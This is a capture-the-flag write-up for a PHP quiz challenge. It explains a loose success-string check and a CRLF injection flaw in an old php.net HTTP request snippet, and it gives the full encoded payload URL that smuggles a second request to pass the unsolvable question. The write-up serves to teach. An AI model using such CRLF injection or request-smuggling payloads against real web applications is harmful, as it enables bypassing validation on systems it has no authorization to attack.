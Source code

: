 # The Impossible Quiz (400 points)

This challenge is my personal favorite, as it consists of a mix
of logic bugs, code taken directly from the PHP website and a
vulnerability that you don't see often in CTFs.

## The application

The Impossible Quiz is meant to be an application that isn't
normally solvable. For that reason, the source code is made
available.

The web app asks us 3 questions, and goes through an odd
procedure in order to validate the answer:

1. The user sends the question and answer to `api.php`
2. The webapp does an HTTP request through the `validate()` function to determine
if the question/answer is correct.
3. The webapp spits the flag if you've successfully answered all 3 questions.

Here's what the validate function looks like :

```
function validate($question, $answer) {
    $url = "http://127.0.0.1/$question.php?answer=$answer";
    $r = new HTTPRequest($url);

    $response = $r->DownloadToString();
    $headers = $response->get_headers();
    $body = $response->get_body();

    if (stripos($body, "400 Bad Request") !== False ||
        stripos($body, "404 Not Found") !== False)
    {
      die("Hacker detected :/ What are you doing...");
    }

    return stripos($body, "The flagkeeper says yes.") !== False;
}
```

So if we want to validate the answer "test" for the question "question3",
the `validate()` function will send a request to
`http://127.0.0.1/question3.php?answer=test`.


Let's take a look at the question files :

Question 1:
```
<?php
  // [...]
  if (isset($_GET['answer']) and $_GET['answer'] === 'King Arthur of the Britons') {
     die("The flagkeeper says yes.");
  }

  die("The flagkeeper says nope :/");
?>
```

Question 2:
```
<?php
  // [...]
  if (isset($_GET['answer']) and $_GET['answer'] === 'I seek the Holy Grail!') {
     die("The flagkeeper says yes.");
  }

  die("The flagkeeper says nope :/");
?>
```

Question 3:
```
<?php
  // [...]
  // I WILL NEVER LET YOU PASS
  die("The flagkeeper says nope :/");
?>
```

Question 1 and 2 are obviously solvable, since the answer is in the source code.
However, question 3 can't be solved since "The flagkeeper says nope :/" will
always be returned.

## Logic bug

The first part that we have to understand is how `validate()` checks whether
an answer is correct or not.

```
    return stripos($body, "The flagkeeper says yes.") !== False;
```

`validate()` will return `True` if the sentence `The flagkeeper says yes.`
is **anywhere** in the response. Otherwise, return `False`. This means
that a `negative` response from the server is irrelevant. The only thing
being checked is wheter a `positive` message is in the  response.

Keep this in mind for the next part.


## HTTPRequest

There's probably 5+ different ways of sending an HTTP request. This one
has been taken from http://php.net/manual/en/function.fopen.php#58099 and
is 12 years old.

The issue with this function is that it's vulnerable to
[CRLF injection](https://www.owasp.org/index.php/CRLF_Injection), as shown
by this snippet :

```
   // generate request
        $req = 'GET ' . $this->_uri . ' HTTP/1.0' . $crlf
            .    'Host: ' . $this->_host . $crlf
            .    $crlf;
```

This allows us to perform [request smuggling](https://www.owasp.org/index.php/Testing_for_HTTP_Splitting/Smuggling_(OTG-INPVAL-016)#HTTP_Smuggling).

Essentially, we're appending keywords and newlines in the `$this->_uri` section
in order to craft a second response towards the end.

Let's say an HTTP request to `http://localhost/question3.php?answer=test`
looks like this:

```
GET /question3.php?answer=test HTTP/1.1
Host: localhost
```

By injecting `test HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\nGET /question2.php?answer=test HTTP/1.1\r\nA: `, `httprequest.php` will end up sending :

```
GET /question3.php?answer=test HTTP/1.1
Host: 127.0.0.1

GET /question2.php?answer=test HTTP/1.1
A: HTTP/1.1
Host: localhost
```

... which will be interpreted as two requests by the webserver.
This also means that `HTTPRequest` will wait for the responses of
both requests before sending it to `validate()`.

## Solution

Since the application only checks for the existence of `The flagkeeper says yes.`
in the response, the solution here is to craft a request for `question3.php`
and smuggle a request to `question2.php` with the correct answer.

This will create in two responses :
1. The first response will be `The flagkeeper says no.` from the `question3.php` request.
2. The second response will be `The flagkeeper says yes.` from the smuggled `question2.php` request.

... resulting in `return stripos($body, "The flagkeeper says yes.") !== False;`
being true!

Here's the final URL and the resulting request :

```
http://localhost:23000/api.php?question=question3&answer=%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0A%0D%0AGET%20/question2.php?answer=I%2520seek%2520the%2520Holy%2520Grail!%20HTTP/1.1%0D%0AA:%20
```

```
GET /question3.php?answer= HTTP/1.1
Host: 127.0.0.1

GET /question2.php?answer=I%20seek%20the%20Holy%20Grail! HTTP/1.1
A: HTTP/1.0
Host: 127.0.0.1
```

